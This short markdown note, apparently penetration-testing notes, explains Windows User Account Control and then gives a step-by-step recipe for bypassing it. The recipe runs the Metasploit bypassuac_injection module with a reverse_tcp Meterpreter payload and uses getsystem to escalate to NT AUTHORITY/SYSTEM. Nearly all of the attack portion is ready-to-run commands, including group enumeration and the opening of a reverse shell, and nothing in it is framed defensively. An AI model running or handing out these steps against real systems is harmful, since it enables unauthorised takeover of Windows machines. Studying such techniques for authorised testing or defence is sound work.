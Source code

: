 # Bypassing UAC via Metasploit
- UAC (User account control) is a Windows security feature that requires administrative approval to make changes in the operating system.
- It is the yes/no box that appears saying "Do you want this app to make changes to your device?" when we try to execute an app.

#### PRIVILEGE ESCALTION:

1. Gain a x64 Meterpreter shell
2. Check whether the current user is in the "Administrators" group

```
net users
net localgroup administrators
```

3. Now background the current Meterpreter shell
4. and load the following module and run it

```
use exploit/windows/local/bypassuac_injection
set SESSION 1
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

5. This exploit will bypass the UAC and opens a second Meterpreter shell session with UAC flag turned off.
6. This allows us to run `getsystem` command and escalate our current privileges to NT AUTHORITY / SYSTEM

